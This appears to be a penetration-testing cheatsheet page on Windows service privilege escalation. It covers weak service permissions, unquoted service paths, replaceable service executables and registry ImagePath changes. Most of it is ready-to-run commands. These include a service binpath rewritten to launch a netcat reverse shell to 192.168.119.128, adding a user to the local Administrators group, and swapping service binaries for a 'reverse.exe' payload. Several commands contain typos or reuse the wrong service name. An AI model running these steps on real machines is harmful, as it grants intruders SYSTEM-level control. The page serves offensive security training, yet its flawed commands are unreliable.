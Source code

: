 # Service Privilege Escalation

### [Service Privilege Escalation](https://github.com/iptracej/MyPentestCheatsheet/blob/main/PrivEsc/Windows.md#service-privilege-escalation) <a href="#user-content-service-privilege-escalation" id="user-content-service-privilege-escalation"></a>

Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous (e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS). Some may be useful (e.g. SERVICE\_STOP, SERVICE\_START). Some are dangerous (e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS)

If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own. Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!

#### [Rewrite Service BinPath](https://github.com/iptracej/MyPentestCheatsheet/blob/main/PrivEsc/Windows.md#rewrite-service-binpath) <a href="#user-content-rewrite-service-binpath" id="user-content-rewrite-service-binpath"></a>

{% code overflow="wrap" %}
```bash
#Check the permissions on any Service, given to BOB

accesschk.exe /accepteula –uwcqv yourusername servicename 
accesschk.exe /accepteula -uwcqv IWAM_BOB *    

# -u: Suppress errors
# -w: Show only objects that have write access
# -c: Name is a Windows Service, e.g. ssdpsrv. Specify "*" as the name to show all services and "scmanager" to check the security of the Service Control Manager.
# -q: Omit Banner
# -v: Verbose (includes Windows Vista Integrity Level) 

# Check Service configuration
sc qc SSDPSRV

# Check Service status
sc query SSDPSRV
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Spooler example</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Wauaserv example</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Example

#Check the permissions given to a particular service
acesschk.exe -ucqv  /accepteula SSDPSRV

#if you see R+W permission to the user, change the bin path and restart the service
sc config SSDPSRV binpath= "C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.128 1235 -e cmd.exe"
sc stop  SSDPSRV
sc start SSDPSRV

#if you see the error on retart the service, run the following:
sc config SSDPSRV obj= ".\LocalSystem" password= ""   
sc config SSDPSRV start= "demand"

#Check the SSDPSRV service configuration
sc qc SSDPSRV

#Add IWAM_BOB account to the Local Administrator Group to see the Administrator's directory and files.
net localgroup Administrators IWAM_BOB /add

#Restart the Services (Attack)
sc stop  SSDPSRV
net start SSDPSRV
```
{% endcode %}

#### [Rewrite Unquoted Service Path](https://github.com/iptracej/MyPentestCheatsheet/blob/main/PrivEsc/Windows.md#rewrite-unquoted-service-path) <a href="#user-content-rewrite-unquoted-service-path" id="user-content-rewrite-unquoted-service-path"></a>

When a Service has an unquoted path that also contains spaces under the Service Path such as 'Common Files' in C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe, you can create a Common.exe and rewrite the Service path as C:\Program Files\Unquoted Path Service\Common.exe

{% code overflow="wrap" %}
```bash
# Enumeration
.\winPEASany.exe quiet servicesinfo

wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

#Check the permission for a particular user 
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

# Copy the Service to the directory
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

#Restart the Service (Attack)
sc stop  SSDPSRV
net start SSDPSRV
```
{% endcode %}

#### [Insecure Service Executables](https://github.com/iptracej/MyPentestCheatsheet/blob/main/PrivEsc/Windows.md#insecure-service-executables) <a href="#user-content-insecure-service-executables" id="user-content-insecure-service-executables"></a>

If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable.

{% code overflow="wrap" %}
```bash
# Enumeration

.\winPEASany.exe quiet servicesinfo

# Check permissions, given to the directory 
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

# Check permissions, given to the service
.\accesschk.exe /accepteula -uvqc filepermsvc

# Replace the executable
copy "C:\Program Files\File Permissions Service\filepermservice.exe" "C:\temp\"
copy "C:\PrivEsc\reverse.exe" "C:\Program Files\File Permissions Service\filepermservice.exe" 

# Restart the Service (Attack)
sc stop  SSDPSRV
net start filepermsvc
```
{% endcode %}

#### [Change ImagePath in Registry](https://github.com/iptracej/MyPentestCheatsheet/blob/main/PrivEsc/Windows.md#change-imagepath-in-registry) <a href="#user-content-change-imagepath-in-registry" id="user-content-change-imagepath-in-registry"></a>

{% code overflow="wrap" %}
```bash
# Enumeration

.\winPEASany.exe quiet servicesinfo
# Check permissions, given to the registry entry. Look for a user with full control

powrshell
PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc 

#Check the ImagePath
reg query HKLM\System\CurrentControlSet\Services\regsv

#Check the permission for users (privilege to start and stop service)
.\accesschk.exe /accepteula -ucqv user regsvc

# Update the registry
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

# Restart the Service (Attack)
sc stop  SSDPSRV
net start regsvc
```
{% endcode %}
